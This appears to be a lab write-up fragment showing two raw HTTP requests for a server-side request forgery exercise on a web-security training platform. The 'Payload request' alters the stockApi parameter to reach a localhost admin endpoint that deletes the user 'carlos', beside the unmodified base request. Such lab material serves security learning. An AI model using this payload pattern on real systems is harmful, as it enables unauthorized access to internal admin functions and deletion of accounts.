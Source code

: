 
##### Payload request 
POST /product/stock HTTP/2
Host: 0abf009703264f8e80619e4c00ff00fc.web-security-academy.net
Cookie: session=bnK04jdEf5k9nXqDZfjGFho4evRYeALA
Content-Length: 60
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: */*
Origin: https://0abf009703264f8e80619e4c00ff00fc.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0abf009703264f8e80619e4c00ff00fc.web-security-academy.net/product?productId=3
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

**stockApi=http%3A%2F%2Flocalhost/admin/delete?username=carlos**

##### Base request
POST /product/stock HTTP/2
Host: 0abf009703264f8e80619e4c00ff00fc.web-security-academy.net
Cookie: session=bnK04jdEf5k9nXqDZfjGFho4evRYeALA
Content-Length: 107
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: */*
Origin: https://0abf009703264f8e80619e4c00ff00fc.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0abf009703264f8e80619e4c00ff00fc.web-security-academy.net/product?productId=3
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D3%26storeId%3D1
